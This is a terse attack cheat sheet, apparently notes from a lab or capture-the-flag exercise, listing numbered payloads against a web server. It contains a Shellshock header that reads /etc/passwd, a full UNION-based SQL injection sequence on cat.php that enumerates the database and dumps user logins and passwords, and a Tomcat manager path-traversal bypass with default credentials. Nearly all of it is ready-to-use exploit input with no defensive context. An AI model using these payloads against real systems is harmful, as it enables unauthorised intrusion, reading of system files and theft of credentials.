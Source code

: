 01 - cgi-bin/status/ - CVE-2014-6271 - User-Agent: () { :;}; echo $(</etc/passwd) </br></br>

02 - SQLi - URL/cat.php?id=1 UNION SELECT 1,2,3,4 (detects number of columns)</br>
03 - SQLi - URL/cat.php?id=1 ORDER BY 3 (detects number of columns)</br>
04 - SQLi - URL/cat.php?id=1 UNION SELECT 1,@@version,3,4 </br>
05 - SQLi - URL/cat.php?id=1 UNION SELECT 1,current_user(),3,4 </br>
06 - SQLi - URL/cat.php?id=1 UNION SELECT 1,database(),3,4 </br>
07 - SQLi - URL/cat.php?id=1 UNION select 1, table_name,3,4 from information_schema.tables (tables) </br>
08 - SQLi - URL/cat.php?id=1 UNION select 1, column_name,3,4 from information_schema.columns (columns) </br>
09 - SQLi - URL/cat.php?id=1 UNION select 1, login,3,4 from users </br>
10 - SQLi - URL/cat.php?id=1 UNION select 1, password,3,4 from users </br>
11 - SQLi - URL/cat.php?id=1 UNION select 1, concat(login,':',password),3,4 from users (P4ssw0rd)</br></br>

12 - CVE-2007-1860 - URL/examples/%252e%252e/manager/html - go login (admin/null) </br>/br>
